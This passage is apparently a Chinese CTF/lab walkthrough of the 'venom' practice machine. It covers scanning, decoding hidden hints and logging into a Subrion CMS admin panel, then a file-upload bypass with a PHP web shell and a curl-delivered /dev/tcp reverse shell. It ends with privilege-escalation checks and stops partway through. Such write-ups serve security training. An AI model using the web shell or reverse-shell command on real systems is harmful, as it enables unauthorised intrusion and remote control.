# 前言
靶机介绍
# 一、信息搜集
# （1）地址确认
nmap -sn 192.168.35.0/24
由于我们对网络的熟悉，所以能判断出来靶机 IP 地址为 192.168.35.201。
# （2）端口扫描
nmap --min-rate 10000 -p- 192.168.35.201以最低 10000/s 的发包速率进行全端口扫描。

扫描两次增加准确性，发现开放 21, 80, 139, 443, 445 端口。对应端口常见漏洞来排序渗透优先级。
获取端口详细信息：
nmap -sC -sV -O -p 21,80,139,443,445 192.168.35.201
看样子也都是一些正常的东西，21 端口的 FTP 以及 139 的 SMB 可以尝试一下匿名登录。
# （3）FTP 初尝试 - 匿名测试
ftp 192.168.35.201
anonymous
# （4）SMB 匿名登录
再来尝试一下 SMB 的匿名登录以及用户名枚举：
smbclient -L //192.168.35.201 -N
并没有发现什么东西，此时再尝试一下用户名枚举，看是否有泄露用户名的地方：
enum4linux -U 192.168.35.201
同样也没发现什么有用的东西。那把着重点放到 Web 服务上去。
# （5）80 端口渗透测试
# ① 目录扫描
使用 gobuster 进行扫描：
gobuster dir -u "http://192.168.35.201" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
发现没有扫描到任何东西，再指定 html、php、txt 后缀来扫描一遍：

依旧毫无所获。那直接打开网址看下有什么线索：

看到首页只有默认空白页，也没有任何目录扫描出来。处于对打靶的敏感性，查看源码看是否有隐藏信息。
# ② 查看网站源码
使用 Ctrl+U 打开网站源码，发现线索：
<!--...<5f2a66f947fa5690c26506f66bde5c23> follow this to get access on somewhere.....-->翻译：根据这个去某处寻找凭证。

<> 里是一个 MD5 字符串，尝试去在线网站解密一下：

解密出字符串 hostinger，此时并不知道这是一个目录还是一个用户名。对以下几种情况都进行了尝试：
-
5f2a66f947fa5690c26506f66bde5c23为目录，访问后排除

-
hostinger为目录，访问后排除

-
想到之前的 FTP 服务，尝试登录

发现确实可以登录，但是需要密码。尝试用户名同密码，登录成功。

# 二、FTP 深度利用 - 寻找敏感信息

将 FTP 中共享的文件下载下来，打开查看 hint.txt：
Hey there...
T0D0 --
* You need to follow the 'hostinger' on WXpOU2FHSnRVbWhqYlZGblpHMXNibHBYTld4amJWVm5XVEpzZDJGSFZuaz0= also aHR0cHM6Ly9jcnlwdGlpLmNvbS9waXBlcy92aWdlbmVyZS1jaXBoZXI=
* some knowledge of cipher is required to decode the dora password..
* try on venom.box
password -- L7f9l8@J#p%Ue+Q1234 -> deocode this you will get the administrator password
Have fun .. :)从这条 hint 中可以读取出来几个信息。
从第一个 * 中，发现有两串类似 Base64 编码的东西，解码来看下：
经历三次解码，also 前的 Base64 解码结果为：
standard vigenere cipheralso 后的解码结果为：
https://cryptii.com/pipes/vigenere-cipher第二个 * 中，翻译并提取关键信息：
一些有关解码的知识可以获取 dora 用户的密码第三个 * 中，让我们尝试去访问 venom.box。立马联想到 hosts 文件。
最后一段话中，告诉了我们加密后的密码为 L7f9l8@J#p%Ue+Q1234，解密之后就可以得到管理员的密码。
根据 CTF 的经验，知道 Vigenere 是一种加密方式，同时也提供了相关介绍。
去搜索一个在线网站来尝试一下：

得到密码，但是否正确还要去尝试登录。
# 三、获取到关键 hint - 修改 hosts 文件
sudo vim /etc/hosts
修改之后访问 venom.box：
成功访问，看到右上角有登录框，尝试登录。
# 四、找到登录框 - 尝试登录管理员用户
从 hint 中可以得知有一个用户名为 dora，极大可能为管理员用户，密码就用刚才解密后的密码。
username: dora password: E7r9t8@Q#h%Hy+M1234成功登录，发现是后台管理员用户。
# 五、后台管理员登录成功 - 深度测试
登录后台后，发现有设置按钮，左边发现该 CMS 名称和版本号。

寻找该 CMS 对应的漏洞，发现该 CMS 有文件上传漏洞：

查看漏洞利用方式：
发现是后台只对 php 做了拦截，未对 phar 以及 pht 做限制，将脚本改为 phar 即可绕过检测。
随后在后台创建一句话木马：
<?php system($_GET['cmd']); ?>
右键详细信息，访问该文件：


成功实现 RCE。
随后准备反弹 shell，先在 Kali 上启动监听：
nc -lvnp 4444由于在浏览器上会因为编码导致出现问题，直接用 curl 来传递参数：
curl -G "http://venom.box/uploads/shell.phar" --data-urlencode 'cmd=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.35.128/4444 0>&1"'
成功反弹 shell。
# 六、成功反弹 Shell - 进行提权
# 提升交互性
# 在拿到 shell 的终端执行：
python3 -c "import pty;pty.spawn('/bin/bash')"
# 然后 Ctrl+Z 挂起，在 Kali 终端执行：
stty raw -echo; fg
# 回车后执行：
export TERM=xterm这样就有 Tab 补全、方向键、Ctrl+C 都能用了。
查看当前用户：
whoami
# www-data发现是 www-data 用户，这个用户应该没什么权限。去看一下家目录下还有哪些用户：
cd /home
ls
发现了两个用户 hostinger 和 nathan。
用刚才 FTP 的 hostinger/hostinger 尝试登录，成功：

# 常规提权检查
sudo -l
find / -perm -4000 2>/dev/null
发现没什么有用的东西。继续看定时任务：
cat /etc/crontab
也没发现什么。
# 寻找敏感信息
其实在后台没有看到 CMS 时，尝试过后台的 SQL 执行的地方：

但发现执行权限太低，是一个普通用户，再进入数据库也没什么东西了。
查看网站目录下有什么东西：

发现一个 subrion 文件夹，进入查看。
里面文件有很多，图中的这些文件感觉都挺重要的，比如 include 文件夹、admin 文件夹、backup 文件夹、robots.txt 文件等等。所以寻找敏感信息这一步耗费了很长时间。

最终，在 backup 文件夹下的隐藏文件 .htaccess 找到了提示信息：

直接拿来尝试登录 nathan 账户，成功：
